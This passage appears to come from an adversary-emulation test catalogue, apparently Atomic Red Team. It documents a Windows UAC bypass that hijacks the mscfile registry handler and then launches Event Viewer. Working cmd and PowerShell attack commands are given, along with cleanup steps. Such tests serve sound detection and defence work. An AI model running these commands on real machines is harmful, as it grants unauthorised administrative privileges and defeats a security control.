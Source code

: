 #### Inputs:

| Name              | Description                       | Type | Default Value                           |
| ----------------- | --------------------------------- | ---- | --------------------------------------- |
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "#{executable_binary}" /f
cmd.exe /c eventvwr.msc
```

#### Cleanup Commands:

```cmd
reg.exe delete hkcu\software\classes\mscfile /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Bypass UAC using Event Viewer (PowerShell)

PowerShell code to bypass User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
Upon execution command prompt should be launched with administrative privalages

**Supported Platforms:** Windows

**auto_generated_guid:** a6ce9acf-842a-4af6-8f79-539be7608e2b

#### Inputs:

| Name              | Description                       | Type | Default Value                           |
| ----------------- | --------------------------------- | ---- | --------------------------------------- |
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item "HKCU:\software\classes\mscfile\shell\open\command" -Force
Set-ItemProperty "HKCU:\software\classes\mscfile\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\eventvwr.msc"
```

#### Cleanup Commands:

```powershell
Remove-Item "HKCU:\software\classes\mscfile" -force -Recurse -ErrorAction Ignore
```

<br/>
<br/>
